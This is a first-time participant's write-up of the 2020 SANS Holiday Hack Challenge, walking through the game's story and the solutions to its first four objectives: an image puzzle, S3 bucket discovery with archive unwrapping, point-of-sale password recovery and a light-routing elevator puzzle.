
# Kringle Con 3: French Hens

[Kringle Con 3: French Hens](https://kringlecon.com) included some great talks and the [2020 SANS Holiday Hack Challenge](https://holidayhackchallenge.com/2020/). I'll detail my experience here!

I have to start by giving a shout-out to the creator(s) of this challenge. Everyone at SANS and Counterhack who put this together, and everyone who gave talks, it must have taken so much thought and prep and so many man-hours. I'm so grateful to them for giving people like me such a great opportunity to learn!

It's worth noting that I did not complete the entire challenge during KringleCon's up-time. I spent most of December preparing for the Network+ cert exam, and started the challenge as soon as I passed as a reward for my hard work. Unfortunately that was the day before the kids got out of school for the break... and you can guess how that went! I'm so glad they left it open so I can continue to work on it though! I'll start with what I've completed now that the challenge is technically over, then I'll add anything else I complete as it happens.

_Another thing to note: this is my **very first** write-up of a CTF or hack challenge. (I've done a couple small CTF's recently, but I'm writing this one up first--I know, I know. It's ok, I'll do the other ones next, I promise.) I didn't get it written up in time to submit to be entered into the T-shirt drawing--sad--but it's still something I'm looking forward to detailing. I'm new at this, and while I'm having a ton of fun and learning even more, my methods are probably safe and inefficient. Won't it be fun to look back in a few years and see how far I've come?_

_Also, I decided I wanted to finish this write-up before looking at others, because I didn't want them to influence how I saw my experience. I'm so excited to see what others wrote though, to see their creativity in the write-up and all the things I'm sure I missed as part of this challenge! My focus here is just to get everything down, and next year when I'm not so new I'll have to work on getting the creative juices flowing in my write-up._

## Kringle Con 3 Talks

I considered publishing my notes from the [talks](https://www.youtube.com/playlist?list=PLjLd1hNA7YVwqXqaBJfbXqkFb7LKw3r31) here, but decided to keep them local.  I do have to put in a plug for the talks though because they were excellent! Also many of them included hints for the objectives, which was a bonus for sure.

## offsides (My Avatar)

I already mentioned I'm a noob, right? Well, I haven't narrowed down my search for a handle yet so I've used a couple and we'll see if any of them stick. Offsides is the one I went with this time.

And of course the challenge starts with the creation of an avatar. Isn't my guy fun?

## My Badge

I liked having one central place to guide my path through the challenge. There were a few times when I wasn't sure if a particular mini-game was an objective or a terminal challenge, so this was a handy place to check. The hints were awesome of course, and I loved watching my list of achievements grow.

_Unfortunately, I forgot to take a screenshot of my badge at the beginning, but here it is later on in the challenge... notably, **(spoiler alert!)** the ability to Teleport was gained later on in the challenge..._

OK, now for the write-up!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

---

# Holiday Hack Write-up:

This was a long challenge, so I've broken my write-up into sections.

The **[Storyline](#storyline)** follows my avatar through the castle, and details the story of the challenge. What's happening with the castle? What's going on with Santa? How can we help? I will put links to the challenges in the storyline so as to keep the story separate from the technical details. 

The **[Objectives](#objectives)** and **[Elf Terminal Challenges](#terminal-challenges)** sections are where I detail exactly how I solved each of the challenges.

I added the **[Narrative](#narrative)**, well, because it felt like it needed its own section!

The **[Personal Takeaways](#takeaways)** section is where I reflect on my favorite parts of the challenges, what was new to me, and some of the main things I learned.

_If you want to skip the storyline and just read about how I solved the challenges, skip ahead to the [Objectives](#objectives) and [Terminal Challenges](#elf-terminal-challenges)._

---

## Storyline

The virtual world that made up the Holiday Hack Challenge is what made it so much fun! The [killer soundtrack](https://holidayhackchallenge.com/2020/music.html) definitely added to the experience. 

It starts on the New Jersey Turnpike...

### NJTP

The elf Jingle Ringford is there to give some tips on how to get started.

> "Welcome! Hop in the gondola to take a ride up the mountain to Exit 19: Santa's castle!
Santa asked me to design the new badge, and he wanted it to look really cold - like it was frosty.
Click your badge (the snowflake in the center of your avatar) to read your objectives.
If you'd like to chat with the community, join us on [Discord](https://discord.gg/Wbmx92rWW3)!
We have specially appointed Kringle Koncierges as helpers; you can hit them up for help in the #general channel!
If you get a minute, check out Ed Skoudis' official intro to the con!
Oh, and before you head off up the mountain, you might want to try to figure out what's written on that advertising billboard.
Have you managed to read the gift list at the center?
It can be hard when things are twirly. There are tools that can help!"

I solved the billboard objective ([see Objective 1](#objective-1)) then hopped on the gondola to head up to the castle.

### Front Yard of Santa's Castle

Off the gondola, I find myself in the front yard of Santa's castle with Ninjula's [Need a Little Xmas](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20Need%20a%20little%20xmas.mp3) playing in the background.

There are a few elves, some terminals, and Santa with the 3 French Hens! Here's what they had to say:

Jewel Loggins:

> "Welcome to the SANS Holiday Hack Challenge 2020! Have a great time!
Be sure to join us on Discord!
Remember, you can get hints for each of the objectives in your badge by clicking on elves.
If you help elves solve their own technical terminal challenge, they’ll give you some ideas about how to approach the objectives.
Oh, and if you see any odd objects lying around, walk over to them to pick them up!
You might even find one as you approach the castle!"

Santa:

> "Hello and welcome to the North Pole!
We’re super excited about this year’s KringleCon 3: French Hens.
My elves have been working all year to upgrade the castle.
It was a HUGE construction project, and we’ve nearly completed it.
Please pardon the remaining construction dust around the castle and enjoy yourselves!"

Each of the hens gave a friendly greeting.

> Pierre: "Bonjour!"

> Marie: "Joyeuses fêtes!"

> Jean-Claude: "Jacques DuGivre!"

Shinny Upatree:

> _Ugh, I seem to have lost some of his initial dialogue! He was talking about finding a map of the castle in the kiosk, but I don't remember the other details..._

> "Be careful with that last one though. I heard someone say it's "ingestible." Or something...
Do you think you could check and see if there is an issue?"

This is where I started with Shinny Upatree's [Kringle Kiosk](#kringle-kiosk). Once I cracked that, he gave me some hints.

Shinny Upatree:

> "Golly - wow! You sure found the flaw for us!
Say, we've been having an issue with an Amazon S3 bucket.
Do you think you could help find Santa's package file?
Jeepers, it seems there's always a leaky bucket in the news. You'd think we could find our own files!
Digininja has a great guide, if you're new to S3 searching.
He even released a tool for the task - what a guy!
The package wrapper Santa used is reversible, but it may take you some trying.
Good luck, and thanks for pitching in!"

Now for the second objective, looking for Santa's package file in a leaky S3 bucket. ([see Objective 2](#objective-2-investigate-s3-bucket)) 

Once that was complete, on to talk with Pepper Minstix:

> "Howdy - Pepper Minstix here!
I've been playing with tmux lately, and golly it's useful.
Problem is: I somehow became detached from my session.
Do you think you could get me back to where I was, admiring a beautiful bird?
If you find it handy, there's a tmux cheat sheet you can use as a reference.
I hope you can help!"

Once I accomplished the [Unescape Tmux challenge](#tmux) I talked to Pepper Minstix again:

> "You found her! Thanks so much for getting her back!
Hey, maybe I can help YOU out! There's a Santavator that moves visitors from floor to floor, but it's a bit wonky.
You'll need a key and other odd objects. Try talking to Sparkle Redberry about the key.
For the odd objects, maybe just wander around the castle and see what you find on the floor.
Once you have a few, try using them to split, redirect, and color the Super Santavator Sparkle Stream (S4).
You need to power the red, yellow, and green receivers with the right color light!"

Now time to head into the castle. Ooh, and there was a broken candy cane on the ground that I grabbed on the way to the castle door. ~~Ew~~ Yum!

### Castle Entry

In the entry of the castle, we see Santa and a few elves, and the soundtrack changes to Ninjula's [Santa Claws is back in town](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20Santa%20Claws%20is%20back%20in%20town.mp3).

There's an... interesting painting on the wall behind Santa.

Here's what everyone has to say:

Piney Sappington:

> "Psssst!
Hey you! Yes YOU!
I’ve gotta tell you something, but you gotta keep it on the down-low.
Santa has been behaving VERY strangely over the past couple of weeks.
He has delayed certain projects, cancelled others, and even messed around with our technical infrastructure.
There’s rumors among the elves that something has gone wrong with Santa.
I can’t say any more – he might hear!

Ginger Breddie:

> "Hey, I heard from some of the other elves that there's some really crazy things going on with floor one and a half."

Sparkle Redberry:

> "Hey hey, Sparkle Redberry here!
The Santavator is on the fritz. Something with the wiring is grinchy, but maybe you can rig something up?
Here's the key! Good luck!
On another note, I heard Santa say that he was thinking of canceling KringleCon this year!
At first, I thought it was a joke, but he seemed serious. I’m glad he changed his mind.
To get to different floors, you'll need to power the various colored receivers.
... There MAY be a way to bypass the S4 stream."

Now I have the elevator key in my badge!

Santa:

> "Welcome to my newly upgraded castle! 
Also, check out that big portrait behind me!
I received it in the mail a couple of weeks ago – a wonderful house warming present from an anonymous admirer.
Gosh, I wonder who sent it. I’m so thankful for the gift!
Please feel free to explore my upgraded castle and enjoy the KringleCon talks upstairs.
You can get there through my new Santavator!"

I decided to check out the Santavator after exploring this floor of the castle. I picked up a hex nut off the floor before checking out the doorway on the right. 

### Great Room

Through the doorway on the right is the great room--we see an elf there with a Splunk terminal and hear Dual Core's [Falling](https://holidayhackchallenge.com/2020/album/Dual%20Core%20-%20Falling.mp3). Clicking on the terminal gives a message saying that it's for Santa and select SOC elves only. Hmmm...

Time to talk to Angel Candysalt:

> "You know, every day or so, I see Santa looking at his portrait in the entry and then letting out a maniacal 'Bwahahaha.'
It’s kind of disturbing and I’m worried about him.
Oh, this machine here? Oh, it's nothing you'll be able to use.
You know, we have pretty tight controls on authentication for that infrastructure.
There’s some biometrics, so only Santa and a handful of elves can login."

There's a door out the back. I have a feeling I'll be coming back to this one...

### Courtyard

That door heads to the courtyard. There's a fun bonfire going, and several sponsor booths. Sponsors are amazing for events like this so I definitely checked them all out!

Jack Frost is hanging out and this is what he has to say:

> "That's such a magnificent portrait of Santa in the foyer.
What a great demonstration of artistic skill.
Bwahahaha!"

Sugarplum Mary is there with a cranberry pi and a table that looks like it could be an objective. 

> "Sugarplum Mary? That's me!
I was just playing with this here terminal and learning some Linux!
It's a great intro to the Bash terminal.
If you get stuck at any point, type hintme to get a nudge!
Can you make it to the end?"

This [Linux terminal](#linux) was a blast! I loved the mood with Ninjula's [You're a maen one, Mr Grinch](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20You're%20a%20maen%20one,%20Mr%20Grinch.mp3) playing!

Once that's complete, Sugarplum Mary has some more info to offer:

> "You did it - great! Maybe you can help me configure my postfix mail server on Gentoo!
Just kidding!
Hey, wouldja' mind helping me get into my point-of-sale terminal?
It's down, and we kinda' need it running.
Problem is: it is asking for a password. I never set one!"

Now for the point-of-sale terminal ([see Objective 3](#objective-3)). This was an interesting one, a good combo of cryptography and problem solving.

There's a green light bulb on the ground that I picked up before talking to Bubble Lightington:

> "Santa doesn’t seem to be his kind self lately.
It’s like something’s gotten into him.
Must be stress."

Heading in the door on the left...

### Dining Room

That brings us to the dining room where Ninjula's [I could be Santa](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20I%20could%20be%20santa.mp3) is playing and there's an elf hanging out by an arcade game.  

Ribb Bonbowford says:

> "Hello - my name is Ribb Bonbowford. Nice to meet you!
Are you new to programming? It's a handy skill for anyone in cyber security.
This challenge centers around JavaScript. Take a look at this intro and see how far it gets you!
Ready to move beyond elf commands? Don't be afraid to mix in native JavaScript.
Trying to extract only numbers from an array? Have you tried to filter?
Maybe you need to enumerate an object's keys and then filter?
Getting hung up on number of lines? Maybe try to minify your code.
Is there a way to push array items to the beginning of an array? Hmm..."

This [JavaScript challenge](#elf-code) was fun. I liked the game aspect!

Talking to Ribb Bonbowford again:

> "Wow - are you a JavaScript developer? Great work!
Hey, you know, you might use your JavaScript and HTTP manipulation skills to take a crack at bypassing the Santavator's S4."

Heading through the door at the top right...

### Kitchen

Whoah check out that old rotary phone!

Ninjula's [I saw Mommy kissing Stanta Claws](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20I%20saw%20mommy%20kissing%20santa%20claws.mp3) was the music for the kitchen. 

Here's what the elves had to say:

Fitzy Shortstack: 

> "'Put it in the cloud,' they said...
'It'll be great,' they said...
All the lights on the Christmas trees throughout the castle are controlled through a remote server.
We can shuffle the colors of the lights by connecting via dial-up, but our only modem is broken!
Fortunately, I speak dial-up. However, I can't quite remember the handshake sequence.
Maybe you can help me out? The phone number is 756-8347; you can use this blue phone."

Holly Evergreen:

> "Hi, so glad to see you! I'm Holly Evergreen.
I've been working with this Redis-based terminal here.
We're quite sure there's a bug in it, but we haven't caught it yet.
The maintenance port is available for curling, if you'd like to investigate.
Can you check the source of the index.php page and look for the bug?
I read something online recently about remote code execution on Redis. That might help!
I think I got close to RCE, but I get mixed up between commas and plusses.
You'll figure it out, I'm sure!"

First I used the rotary phone for the [dial-up challenge](#dial-up) (blast from the past with that dial-up handshake!), then talked to Fitzy Shortstack again:

> "탢ݵרOُ񆨶$Ԩ؉楌Բ ahem! We did it! Thank you!!
Anytime you feel like changing the color scheme up, just pick up the phone!
You know, Santa really seems to trust Shinny Upatree..."

Then I tackled the [Redis bug hunt](#redis) before talking to Holly Evergreen again:

> "See? I knew you could to it!
I wonder, could we figure out the problem with the Tag Generator if we can get the source code?
Can you figure out the path to the script?
I've discovered that enumerating all endpoints is a really good idea to understand an application's functionality.
Sometimes I find the Content-Type header hinders the browser more than it helps.
If you find a way to execute code blindly, maybe you can redirect to a file then download that file?"

Next I headed back to the castle entry. 
 
### Santavator

Time to take a crack at the [Santavator](#objective-4).

Ninjula's [Girl form Ipanema](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20Girl%20form%20ipanema.mp3) was the background for the trip up to the Talks Lobby.

### Talks Lobby

Off the Santavator, the first thing I noticed was the red light bulb on the floor in the corner. Nice!

Ninjula's [You're a maen one, Mr Grinch](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20You're%20a%20maen%20one,%20Mr%20Grinch.mp3) is playing. Rooms for each talks track, and there are a few elves and Jack Frost hanging out on the Mezzanine. 

First I took a peek in a talks room, and I have to say it's pretty fun. Each room has a big screen on the wall with the talk playing. 

I'd watched several [talks](https://www.youtube.com/playlist?list=PLjLd1hNA7YVwqXqaBJfbXqkFb7LKw3r31) already (have I mentioned the talks are awesome? Definitely check them out!), so I decided to continue scoping out the floor.

Here's what Jack Frost had to say:

> "Gosh, there's some really great talks.
Gosh, there's some really great talks.
I'm getting all kinds of ideas for different modes of attack."

The elf Bow Ninecandle said:
> You know what Santa just told me?
He said he thought of yet another marketing pitch for the North Pole.
He wants to call it, "The Frostiest Place on Earth!"
What’s with that?

Hmmm I get the feeling that's more of a Jack Frost thing to say...

The elf Chimney Scissorsticks said:
> Hello hello, I'm Chimney Scissorsticks!
Feel free to use this greeting card generator to create some holiday messages which you can share online!
It's based closely on the code used in the Tag Generator - in the wrapping room.
I hear that one's having some issues, but this one seems A-OK.

Terminal - greeting card generator opens in a new tab, looks like it just makes a greeting card you can download as a png… wonder if there's more to it?

Bushy Evergreen is standing next to a closed door with a sign over it: "Speaker Unpreparedness Room," he has a terminal next to him labeled "Speaker UNPrep," and here's what he has to say about it:
> Ohai! Bushy Evergreen just trying to get this door open.
It's running some Rust code written by Alabaster Snowball.
I'm pretty sure the password I need for ./door is right in the executable itself.
Isn't there a way to view the human-readable strings in a binary file?

The Speaker UNPrep terminal was a fun one! I detailed each of the three challenges within it separately.
First [got the door opened](#speaker-door), then talked to Bushy again.

> That's it! What a great password…
Oh, this might be a good time to mention another lock in the castle.
Santa asked me to ask you to evaluate the security of our new HID lock.
If ever you find yourself in possession of a Proxmark3, click it in your badge to interact with it.
It's a slick device that can read others' badges!
Hey, you want to help me figure out the light switch too? Those come in handy sometimes.
The password we need is in the lights.conf file, but it seems to be encrypted.
There's another instance of the program and configuration in ~/lab/ you can play around with.
What if we set the user name to an encrypted value?

I of course wanted to check out the UnPreparation room next to see what it was like in the dark. I'll head in there before detailing the other two UNPrep Terminal challenges.

### UnPreparation Room

Dual Core's [Falling](https://holidayhackchallenge.com/2020/album/Dual%20Core%20-%20Falling.mp3) is playing, and it's not *that* dark.

Found the elevator 1.5 button near the door.

Going to the vending machine (Which is named "Release the Snacken," haha), it says:

> HI. I AM OUT OF ORDER
...

And talking to the elves:

Morcel Nougat
> I'm in the Speaker UNPreparedness room again!
I just love meeting all the speakers as they come through here!
Sure is dark in here, though. Bushy must still be working on the lights.
I'm not scared *YOU'RE* scared...
...

Tangle Coalbox
> Howdy gumshoe. I'm Tangle Coalbox, resident sleuth in the North Pole.
If you're up for a challenge, I'd ask you to look at this here Snowball Game.
We tested an earlier version this summer, but that one had web socket vulnerabilities.
This version seems simple enough on the Easy level, but the impossible level is, well…
I'd call it impossible but I just saw someone beat it! I'm sure something's off here.
Could it be that the name a player provides has some connection to how the forts are laid out?
Knowing that, I can see how an elf might feed their Hard name into an Easy game to cheat a bit.
But on Impossible, the best you get are rejected player names in the page comments. Can you use those somehow?
Check out Tom Liston's talk for more info, if you need it.

OK the next step is [turning the lights on](#speaker-lights). Now we can see better!

Talking to Bushy Evergreen again - 

> Wow - that worked? I mean, it worked! Hooray for opportunistic decryption, I guess!
Oh, did I mention that the Proxmark can simulate badges? Cool, huh?
There are lots of references online to help.
In fact, there's a talk going on right now!
So hey, if you want, there's one more challenge.
You see, there's a vending machine in there that the speakers like to use sometimes.
Play around with ./vending_machines in the lab folder.
You know what might be worth trying? Delete or rename the config file and run it.
Then you could set the password yourself to AAAAAAAA or BBBBBBBB.
If the encryption is simple code book or rotation ciphers, you'll be able to roll back the original password.

And Morcel Nougat is killing me -
> You fixed the lights! Thanks!!
Again, *I* wasn't scared.
Someone write that down.
...

Finally, I got the [vending machine](#vending-machine) working. Really, the three challenges in this terminal were fun! (Also when my family was like, 'What did you today?' I got to answer, 'I opened the door and turned on the lights!' *ba-dum ching*)

Bushy and I are becoming great friends! Here's what he said when we chatted again:

> Your lookup table worked - great job! That's one way to defeat a polyalphabetic cipher!
Good luck navigating the rest of the castle.
And that Proxmark thing? Some people scan other people's badges and try those codes at locked doors.
Other people scan one or two and just try to vary room numbers.
Do whatever works best for you!

Checking out the vending machine now that it's fixed, and Release the Snacken says:
> We're outta glazed donuts.
We're outta jelly donuts.
We're outta Bavarian cream-filled donuts.
We're outta cinnamon rolls.
We're outta apple fritters.
We're outta bear... wait a minute...
...
...
...
WE'RE OUTTA BEAR CLAWS.
All I've got are these Portal Candies. Enjoy!
Can I interest you in a box of weasles, by chance?

It gave me portal candies!

Skipped the snowball game for now... I'll probably regret that later!

Heading to floor 1 1/2 now that I have that button and the red bulb

### Workshop

Unlocked the second stanza of the narrative. Cool.

song: Ninjula's [I could be Santa](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20I%20could%20be%20santa.mp3)]  

There's a large marble on the floor!

Talking to Minty Candycane
> Hey there, KringleKon attende! I'm Minty Candycane!
I'm working on fixing the Present Sort-O-Matic.
The Sort-O-Matic uses JavaScript regular expressions to sort presents apart
With some tools, regexes need / at the beginning and the ends, but they aren't used here.
You can find a regular expression cheat sheet here if you need it.
You can use this regex interpreter to test your regex against the required Sort-O-Matic patterns.
Do you think you can help me fix it?

Ok got the [Regex challenge]() done. Talking to Minty again - 
> Great job! You make this look easy!
Hey, have you tried the Splunk challenge?
Are you newer to SOC operations? Maybe check out his intro talk from last year.
Dave Herrald is doing a great talk on tracking adversary emulation through Splunk!
Don't forget about useful tools including Cyber Chef for decoding and decrypting data!
It's down in the Great Room, but oh, they probably won't let an attendee operate it.

### Wrapping Room

Moving to the next room, lots of wrapping paper

song: Ninjula's [Santa Claws is back in town](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20Santa%20Claws%20is%20back%20in%20town.mp3)

Found two objects here: a rubber ball and the Proxmark3.

Talk to Noel Boetie - 
> I'm Noel Boetie. Welcome to the Wrapping Room!
We wrap presents and tag them for delivery here.
Unfortunately, the tag generator is acting up.
I'm hoping Santa can give me a hand nailing down that flaw.

Look at the tag generator…
Jk
tag-

I'm pretty sure the locked door in the sorting room is the one where the Proxmark can open the door…
so heading back to the Workshop to check out the locked door in there...

One of the elves said Santa really trusts Shinny Upatree, so I'm going to go try to clone his badge with the Proxmark3…

Got Shinny Upatree's badge cloned and completed the Open HID Lock objective.

Now let's go through the door here…

That unlocked a bunch of challenges in my badge!
And… I'm standing in a very dark room.

### Dark room behind a locked door
(off of the Workshop)

Umm... Spooky. I guess the only thing to do is to check out the glowing eyes...

Hey! Now I'm Santa in the foyer! And this unlocked the third stanza of the narrative.

And my tag is different... and the elves all think I'm Santa! Also Mary Ellen Kennel's [I Wish I Could be Santa Claus](https://holidayhackchallenge.com/2020/album/Mary%20Ellen%20Kennel%20-%20I%20Wish%20I%20Could%20be%20Santa%20Claus.mp3) is the perfect background here.

Hmmm let me think. OK in the wrapping room, they said they were hoping Santa would come.
And the Splunk challenege in the Great Room was only open to trusted personnel.

The next step is to head around the castle and talk to all the elves, see what I can learn.

Ginger Bredding - 
> Hey Santa, did you just come here from floor one and a half?

Sparkle Redberry - 
> Santa, I just saw you get in the Santavator, but you never came back down, but now you're back.
How did you do that?

Piney Sappington - 
> Hey Santa!
Are you alright?
You look a little out of it. Perhaps you could use some rest.
You've been so busy.

Ribb Bonbowford - 
> Hello Santa!
I've been looking over some of that code you submitted for the Santavator.
It seems to open up a vulnerability in the fingerprint reader.
I'm kind of surprised that you would have submitted such weak code.
Normally your code is cleaner.

Bubble Lightington - 
> Hey Santa… I've noticed that lately, you've been telling everyobdy, "Stay Frosty."
What's that all about?

Jack Frost - 
> Oh, hi Santa.
I'm just wandering around, minding my own business.
Nothing nefarious going on here.

Sugarplum Mary - 
> IT"S SATNA!!!
… oh, hi Santa.
Thanks for all of the Linux lessons. I feel like I'm getting better at working the command line 
I'm so thankful for all the Linux help from our guest Santa!
Maybe they can help with the point of sale terminal issue too?
Wow Santa, these guests are amazing! It seems like there's nothing they can't do!

Angel Candysalt - 
> Hey Santa, there's some crazy stuff going on that we can see through our Splunk infrastructure.
You better login and see what's up.

Clicking on the [Splunk terminal]()…
Got it! That was… interesting. Splunk is still a little confusing to me, I'd never actually heard of it before. It looks like an interesting tool.

Talking to Angel Candysalt again - nope, same message as before.

I'm going to check out the wrapping room again before heading up to Objective 7.
Teleport Using badge

Talk to Noel Boetie - 
> Welcome to the wrapping room, Santa!
The tag generator is acting up.
I feel like the issue has something to do with weird files being uploaded.
Can you help me figure out what's wrong?

Try this tage generator challenge… 

Ugh I accidentally exited to the NJTP and lost the Santa disguise!
Ooh but I can still Teleport…

Let's go back to that one dark room… Teleport to the workshop and go find the disguise!

OK now to the Wrapping Room again…
Oh this is actually Objective 8, so let's come back to it.
Teleporting up to Net Wars…

### Roof (NetWars)

OK, this is cool. I feel like I've arrived. And Ninjula's [You're a maen one, Mr Grinch](https://holidayhackchallenge.com/2020/album/Ninjula%20-%20You're%20a%20maen%20one,%20Mr%20Grinch.mp3) adds the perfect touch.

Let's talk to everyone…

Alabaster Snowball
> Hey Santa! You've got to check out our Scapy Present Packet Prepper!
Please work through the whole thing to make sure it's helpful for our guests!
I made it so that players can help() to see how to get tasks and hints.
When you're done, maybe you can help me with this other issue I'm having.
...

Wunorse Openslae
> Hey Santa!
Those tweaks you made to the sled just don’t seem right to me.
I can’t figure out what’s wrong, but maybe you can check it out to fix it.
...

Jack Frost
> Uh-oh! Santa! It’s… YOU!
Hello! How are you doing?
I'm just minding my own business, watching the elves play NetWars.
...

I'm going to start with the [Scapy Prepper]()
OK that was pretty cool, I liked changing the packets.

Now talking to Alabaster again…

Alabaster Snowball
> Oh, I see the Scapy Present Packet Prepper has already been completed!
Now you can help me get access to this machine.
It seems that some interloper here at the North Pole has taken control of the host.
We need to regain access to some important documents associated with Kringle Castle.
Maybe we should try a machine-in-the-middle attack?
That could give us access to manipulate DNS responses.
But we'll still need to cook up something to change the HTTP response.
I'm sure glad you're here Santa.
...

Looks like hints for the ARP Shenanigans. That's objective 9… I'll come back to it.

Looking more closely at Objective 7

I wonder how the dialogue will change if I go to the roof as me instead of Santa? I'm going to exit to the NJT and then Teleport back to the roof. I can become Santa again after by teleporting to the Workshop.

Bingo!

Alabaster Snowball
> Welcome to the roof! Alabaster Snowball here.
I'm watching some elves play NetWars!
Feel free to try out our Scapy Present Packet Prepper!
If you get stuck, you can help() to see how to get tasks and hints.
Great job! Thanks!
Those skills might be useful to you later on!
I've been trying those skills out myself on this other terminal.
I'm pretty sure I can use tcpdump to sniff some packets.
Then I'm going to try a machine-in-the-middle attack.
Next, I'll spoof a DNS response to point the host to my terminal.
Then I want to respond to its HTTP request with something I'll cook up.
I'm almost there, but I can't quite get it. I could use some help!
For privacy reasons though, I can't let you access this other terminal.
I do plan to ask Santa for a hand with it next time he's nearby, though.
...

Wunorse Openslae
> Hiya hiya - I'm Wunorse Openslae!
I've been playing a bit with CAN bus. Are you a car hacker?
I'd love it if you could take a look at this terminal for me.
I'm trying to figure out what the unlock code is in this CAN bus log.
When it was grabbing this traffic, I locked, unlocked, and locked the doors one more time.
It ought to be a simple matter of just filtering out the noise until we get down to those three actions.
Need more of a nudge? Check out Chris Elgee's talk on CAN traffic!
...

That gave me a hint in my badge too!

Maybe I'll try this objective as me.

Then I'll teleport to the Workshop, go in the dark room, then teleport to the wrapping room as Santa to do objective 8. Then teleport back to the roof as Santa for the ARP Shenanigans.

Actually… I skipped the Snowball game and maybe finishing it could give me more info.
I'll watch the related talk and try that again first. Then I'll try Obj 7 as me and change to Santa for Obj 8 and then Obj 9.

I think the Snowball game was in the UNPreparedness room… it's off the Talks Lobby so I'll teleport there.

Oh, there's a yellow lightbulb here on the roof! I'm going to grab that first.

Snowball game…
This is where I got stuck and ran out of time.

As my first real hack challenge, I have to say I was blown away by the experience! I loved it so much.

I'll hopefully be back to finish this challenge once I complete another goal I'm working on in the first part of this year, and when I do I'll update my write-up for sure! And if I don't end up coming back to this one, I'll definitely be scheduling time in December to work through next year's Holiday Hack!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

---

## Objectives

The objectives were the in-depth, focused challenges that made up the hack challenge. They were the only "mandatory" achievements to complete the overall challenge.

### Objective 1: Billboard



Ok, here's the billboard on the New Jersey Turnpike.

And there's a hint in my badge for this objective:

OK, now to narrow in on the list part of the billboard. I cropped the image to have something focused to work with.

The “tools” links to . I'm sure I could easily have used Photoshop, a tool that's installed on my computer and one I'm very familiar with already, but it's fun to try new tools so I'll use Photopea for this. It's interesting to use a browser-based image editor. Very interesting.  

Filter... Distort... Twirl

And here's the image after I distorted it to try and untwirl the words..

There it is! Josh Wright: proxmark

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 2: Investigate S3 Bucket

There's a hint in my badge:

In the terminal, I started by reading the intro and exploring the files.



This is what is in the README file on the bucket_finder ruby program:

Using this info, I tried the bucket_finder program on the wordlist that was already there. 

OK and then I broadened the wordlist to see if I could find any open buckets that weren’t private.

Hmm any more words I can think of?
Oh let me try lowercase since I'm sure it's case sensitive...
Bingo! wrapper3000 is the leaky bucket!

Here's the whole sequence

Let’s put the file contents into icyberchef.com and see what we can figure out. We’re looking for a string.
 
ASCII to binary conversion? That’s backwards of what they said…

Ok there’s the package.txt so we need to figure out how to get the file. Trying cyberchef again...

OK there’s the file… lots of compression! 
Downloaded the package file
Package.txt.Z.xz.xxd.bz2

I tried using the archive utility, but it wasn't enough to get this unwrapped all the way. It did remove the bz2 wrapper though.
 
Next let’s look at doing the rest of the unwrapping from the command line.
The file is ASCII text but if it were an xz file the hexdump would be what the ascii text of the file is. So how do I work with that? Can I reverse the hexdump? Maybe using xxd…
Trying this:  
`% cat package.txt.Z.xz.xxd | xxd -r >package2.txt.Z.xz`
`% unxz package2.txt.Z.xz`

It worked! The Z file unzipped using the archive utility, leaving me with the package.txt file:

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 3: Point-of-Sale Password Recovery

Well, it's an exe file and I'm on a Mac. Hmm... I could move over to my Windows, but first I want to try this tool
 - someone on the Holiday Hack Discord server mentioned it. 
And it worked great!

Next I saved all the files as ZIP, then extracted and explored them on the Mac. Bingo!

Santa's Password, plain as day!

_Jump to: [top](#top) | [storyline](#storyline) | [objectives](#objectives) | [narrative](#narrative) | [takeaways](#takeaways)_

### Objective 4: Operate the Santavator

Here are the hints for this objective:

Clicking on the key opens the panel, let's play around with the objects and see what it does to the streams of light…

Next is to use the green lightbulb.

OK the green light is on, and there is a key that shows which lights will take me to which floors. Green alone gets me to the Lobby and the Talks floor.

First I'll press the key to close the panel, then I'll press the button for Floor 2 KringleKon Talks. 

Bingo!

This unlocked the objective. Once I get the other light bulbs, I'll be able to ride the Santavator to all the floors.

I bet there's a way to bypass this by hacking the javascript, but beginner me isn't quite there yet! 

